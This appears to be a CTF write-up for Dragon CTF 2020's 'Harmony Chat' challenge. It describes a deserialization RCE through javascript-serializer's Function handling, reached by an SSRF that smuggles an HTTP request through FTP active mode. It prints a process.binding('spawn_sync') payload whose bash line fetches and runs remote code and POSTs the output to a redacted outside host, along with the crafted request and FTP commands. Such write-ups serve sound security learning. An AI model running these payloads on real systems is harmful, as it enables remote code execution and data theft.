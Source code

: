 ```yaml
---
title: "Dragon CTF 2020 - Harmony Chat"
date: 2020-11-26T19:19:49+01:00
draft: false
---
```


Files:

 - This challenge provided a [link](http://harmony-1.hackable.software:3380/) and source ([harmony.zip](https://storage.googleapis.com/dragonctf-prod/harmony_301f77ba9efff83a832c0a31886c8d4a7aae39de1b9b3126fef5c7d4815b515f/harmony.zip))

## Part 0: research

At first sight, the challenge looks like an IRC-like chat, where you can log in with your name and send messages.

The web app also allowed for downloading logs via HTTP and FTP, which seemed exploit-worthy to us.

Upon inspecting the source code, we found a very obscure, yet common-sounding library called [`javascript-serializer`](https://github.com/wix-incubator/javascript-serializer), which can serialize and deserialize classes and an endpoint for sending CSP report, which was restricted for localhost:
```javascript
const handleReport = (req, res) => {
  let data = Buffer.alloc(0)

  req.on("data", chunk => {
    data = Buffer.concat([data, chunk])
  })

  req.on("end", () => {
    res.status(204).end()

    if (!isLocal(req)) {
      return
    }

    try {
      const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
      console.error(generateTextReport(report["csp-report"]))
    } catch (error) {
      console.warn(error)
      return
    }
  })
}
```

Considering that the `validateAndDecodeJSON` function returns data parsed by the library mentioned above, we realized it could lead to a simple RCE exploit, as you could just pass a "serialized" `Function` class with function body.

## Part 1: crafting an exploit

It turned out that in newer versions, the `Function()` constructor in Node.js is somehow sandboxed, without most things like `require`. One of the ways of getting around it is using weird internal functions, in our case it was `process.binding('spawn_sync')` to spawn a process.
Here's the exploit we ended up using:
```javascript
process.binding('spawn_sync').spawn({
	file: '/bin/bash',
	args: [
		'/bin/bash', '-c', 'curl -d \"$(curl https://%REDACTED% | bash)\" https://%REDACTED%/'
	],
	stdio: [
		{type:'pipe',readable:!0,writable:!1},
		{type:'pipe',readable:!1,writable:!0},
		{type:'pipe',readable:!1,writable:!0}
	]});
```
In short, the exploit connects to some server, executes code from it and sends output via POST to another server.

After minifying the code and putting it into JSON, we started to search for a property we could exploit. As most of the properties were defined in the schema to be strings, it wouldn't be possible to put the object into them. Hopefully, there have been some optional properties which were not defined in the schema, but were evaluated in the code. We decided to use `script-sample`, because it was one of the optional properties and wasn't handled in any special way, just printed.
```javascript
const generateTextReport = report => {
  ...

  if (report["script-sample"]) {
    text += `Sample      : ${report["script-sample"]}\n`
  }

  ...
}
```


## Part 2: SSRF

In the meantime, we started to look for a SSRF exploit, because the CSP report endpoint was being limited only to localhost. We realized that because of the FTP server, we could craft such "chat log" that would be a valid HTTP request, then send that file via FTP active mode to `127.0.0.1:3380`.
Fortunately, the only limitations were:
- the line must have `: ` after 0-30 characters (length of the username)
- the line must be less than 2080 characters long (30 for the username, 2 for the `: ` and 2048 for the content)

The HTTP request we came up with:
```
POST /csp-report?: HTTP/1.1
Host: 127.0.0.1
Content-Length: 527
Content-Type: application/csp-report

{"csp-report":{"blocked-uri":""(...)
```

Note the `?:` part in the path - it's needed because of the first limitation.

Having that, we've created a [script](https://github.com/p4-team/ctf/blob/master/2020-11-20-dragonctf/harmony_chat/send.py) for crafting the file on the server, which basically creates new users and joins the same channel, then prints the link to the chat log it created.

## Part 3: actual exploiting

After all that, triggering the actual exploit was as simple as this:
(`13,52` = `(13*256)+52` = `3380`)
```
$ nc harmony-1.hackable.software 3321
220 FTP server (nodeftpd) ready
USER f24090d4641cb9b776c2bd5b05446c9d
331 User name okay, need password.
PASS x
230 User logged in, proceed.
PORT 127,0,0,1,13,52
200 OK
RETR 848800924e2316585788974dc12dbbcf
150 Opening ASCII mode data connection
226 Closing data connection, sent 636 bytes
```
